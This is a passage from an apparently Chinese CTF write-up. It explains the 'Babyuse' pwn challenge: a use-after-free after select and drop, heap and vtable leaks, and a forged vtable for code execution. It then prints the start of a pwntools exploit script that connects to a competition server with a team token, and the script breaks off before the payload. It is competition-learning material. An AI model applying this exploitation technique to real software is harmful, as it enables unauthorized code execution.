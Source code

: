 ```
        if exp(i, pay):
            flag += pay
            print flag
            break
print flag
```



**Pwn**

**Babyuse (PWN)**

select之后drop会导致use时uaf，泄露堆上地址和vtable然后伪造vtable可以执行任意代码。

脚本：



```
#!/usr/bin/env python2
# -*- coding:utf-8 -*-
from pwn import *
import os, sys
#r = process("./babyuse")
token = '4e4ARInVS102IeYFkmUlBUVjOojxsMKC'
r = remote('202.112.51.247', 3456)
context(log_level='DEBUG')
def ru(delim):
    return r.recvuntil(delim)
def rn(c):
    return r.recvn(c)
def sn(d):
    return r.send(d)
def sl(d):
    return r.sendline(d)
def menu():
    return ru('Exitn')
def buy(index, length, name):
    menu()
    sl('1')
    ru('add:')
    sl(str(index))
    ru('name')
    sl(str(length))
    ru('name:')
    sn(name)
    return 
def select(index):
    menu()
    sl('2')
    ru('gun')
    sl(str(index))
    return
def list():
    menu()
    sl('3')
    return
def rename(index, length, name):
    menu()
    sl('4')
    ru('rename')
    sl(str(index))
    ru('name')
    sl(str(length))
    ru('name:')
    sn(name)
```